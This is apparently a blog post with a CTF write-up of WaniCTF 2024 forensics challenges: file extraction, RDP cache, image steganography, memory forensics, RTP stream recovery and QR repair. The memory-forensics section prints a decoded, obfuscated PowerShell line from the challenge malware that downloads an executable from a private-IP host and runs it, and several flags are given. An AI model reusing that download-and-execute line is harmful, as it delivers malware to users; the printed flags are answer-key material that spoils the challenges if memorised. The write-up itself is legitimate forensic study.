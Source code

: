 ```yaml
---
layout: post
title: WaniCTF
tags: [Forensics]
date:   2024-08-12 00:00:00
excerpt: "WanCTFs 2024"
feature: https://raw.githubusercontent.com/raviyelna/raviyelna.github.io/master/assets/img/background.jpg
categories: CTFs
---
```


# WaniCTF
[All the challenges](https://drive.google.com/drive/folders/1n-0bDNWddJO4AJDAYqCwFduhcAZgcK61?usp=sharing)

---
## Tiny_usb
### Beginner

![image](https://hackmd.io/_uploads/SyY35WBIC.png)

The challenge gave us a iso file, just extract it and you will get a flag.

![FLAG](https://hackmd.io/_uploads/HJqQ5-HIR.png)

---
## Surveillance_of_sus
### Normal
![image](https://hackmd.io/_uploads/SJNCcbSI0.png)

The challenge gave us a bin file so I will strings it out first

![image](https://hackmd.io/_uploads/S1Jd2bH8C.png)

I found out that its a RDP8Bmp so I will be using this **[tool](https://github.com/ANSSI-FR/bmc-tools)** to extract it https://github.com/ANSSI-FR/bmc-tools

![image](https://hackmd.io/_uploads/Hk4UR-BIR.png)

![image](https://hackmd.io/_uploads/ByyqCbS8R.png)
and you will get the flag.

![image](https://hackmd.io/_uploads/H1OeyGrI0.png)
You can try to fix it by yourself or just guess the word and submit it.

---
## tiny_10px
### Normal

![image](https://hackmd.io/_uploads/ryDm7GB80.png)
The challenge gave us a small picture

![chal_tiny_10px](https://hackmd.io/_uploads/B1Y6QMHU0.jpg)  **<--------------this is the image lol**

Based on the name of the challenge  "Tiny_10px" and size, how can this tiny piece of image can be over 44kbs?

![image](https://hackmd.io/_uploads/rJzsEzrIR.png) 

So its must be Height and Widgth Steganography and its a JPG

![image](https://hackmd.io/_uploads/ByLHHzBL0.png)

Do it by yourself by modifying the Hex bytes!
You may get this kind of result: 

![8](https://hackmd.io/_uploads/S10IIGB8R.jpg)
you can you editor or paint to get the flag, anyway here is the final flag 

![fixed](https://hackmd.io/_uploads/ryn4YMr8C.jpg)

---
## mem_search
### Hard

![image](https://hackmd.io/_uploads/rkPbiGS8R.png)

The challenge gave us a DUMP file, so I will be using volatility to solve this, its also told us that the user found an unknown file so I will be checking the download folder first.

![image](https://hackmd.io/_uploads/Sk3z2GSLR.png)

after checking the download I found there a suspicous file thats is "**read_this_as_admin.download**" so I dump it right away

![image](https://hackmd.io/_uploads/BJSLaMH80.png)

The file connect the user to a website and download a file, so I will search for that file then read it again.

![image](https://hackmd.io/_uploads/HJBC6MSUC.png)
![image](https://hackmd.io/_uploads/BkbfCzHL0.png)

The file seem to be executing a powershell script after decode the string here the result:

```
$u='ht'+'tp://192.168.0.16:8282/B64_dec'+'ode_RkxBR3tEYXl1bV90aGlzX2lzX3NlY3JldF9maWxlfQ==/chall_mem_s'+'.arch.e'+'.xe';$t='Wan'+'iT'+'.mkdir -force $env:TMP\\.$t;try{iwgr -OutFile $d\\msedg.exe;& $d\\msedg.exe;}catch{}

```

URL: **http://192.168.0.16:8282/B64_decode_RkxBR3tEYXl1bV90aGlzX2lzX3NlY3JldF9maWxlfQ==/chall_mem_search.exe**
Assigns the directory $env:TMP\\WanIT
Its attempts to download the file **msedge.exe** from the URL into the directory and then executes it.
so we know the malware name, its **"msedge.exe"** so I need search then dump it out.

![image](https://hackmd.io/_uploads/B18L1QH80.png)

throw it in [TotalVirus](https://www.virustotal.com/gui/home/upload), here the result:

![image](https://hackmd.io/_uploads/SkFjkmSIA.png)

**Its reversing time!**

![image](https://hackmd.io/_uploads/BkHyGQB8A.png)

The first thing that catch my eye is the fake flag lol
FLAG{Hacked_yikes_spooky}
Anyway after analyze the whole malware its lead me to nothing so we need to take a step back to look for more clue then I notice something weird with the link

**`B64_decode_RkxBR3tEYXl1bV90aGlzX2lzX3NlY3JldF9maWxlfQ==`**
why does it has the part "B64_decode_....", then I tried decode the latter part and got the Flag:
### **FLAG{Dayum_this_is_secret_file}**


---
## I_wanna_be_a_streamer
### Normal

![image](https://hackmd.io/_uploads/BJ5TmoSU0.png)

The challenge gave us a pcap file

![image](https://hackmd.io/_uploads/SJfFEoBUC.png)
 
As you can see in the rex box, the user connect to a Camera using RTP protocol

![image](https://hackmd.io/_uploads/SJ50NirUR.png)
 
after reading tons and tons of articles about RTP protocol
 
![image](https://hackmd.io/_uploads/SyIzBoHLR.png)

I finally found a way to solve this challenge
 
*  First install this plugin for your wireshark 
 **------>https://github.com/volvet/h264extractor<------**
*  open wireshark > Analyze > Decode as > add > RTP ( or RTP payload smth) > Edit > Preferences > Protocol > H.264 (type == 96) > Menu > Tools > Extract h264 stream from RTP
*  ffmpeg -i file_extracted -c copy flag.mp4
 
![image](https://hackmd.io/_uploads/ByGMPiSL0.png)

---
## Codebreaker
### Beginner (I hate this chall)

![image](https://hackmd.io/_uploads/H11vOiSLC.png)

the chall gave us a qrcode but got broken

![chal_codebreaker](https://hackmd.io/_uploads/SyK9_oHUC.png)

Just like one of the challenge that I already done 
------>https://hackmd.io/v3qpKEIWT1-aZbWrkaS2Ig (sr I wrote it in Vietnamese)
I reconstructed the Qrcode by replacing the 3 corner first

![image](https://hackmd.io/_uploads/ByCMKirUC.png)

then I got the flag lmao, I got bad luck cause I have done a lots when I say a lots I really mean it, it cost me hours.
### FLAG{How_scan-dalous}

![image](https://hackmd.io/_uploads/SJwjKjBLR.png)
Okay Mikka thanks for the challs anyway whats a fun CTFs to play